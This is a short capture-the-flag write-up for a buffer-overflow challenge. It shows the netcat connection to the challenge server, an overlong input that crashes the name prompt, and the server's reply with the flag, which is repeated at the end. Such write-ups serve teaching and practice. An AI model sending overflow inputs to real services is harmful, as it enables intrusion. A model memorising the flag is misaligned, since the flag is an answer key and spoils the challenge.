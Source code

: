# INFO

Provided : nc 0xhorizon.eu 8888

After connection we can see:

`Hello ! What's your name ?`

After what the cmd need an input. Obviously it appears like a BufferOverflow.
Let's try to input a lot of data:

`Hello ! What's your name qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq`

Response:

`Hello qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq Good job here is your flag: horiz0nx{Segment@t10n_fau1t_1s_c00L_1n_PWN}`

Okey thanks Seg Fault!

(exploit in `script.py`)

# Gotcha !

horiz0nx{Segment@t10n_fau1t_1s_c00L_1n_PWN}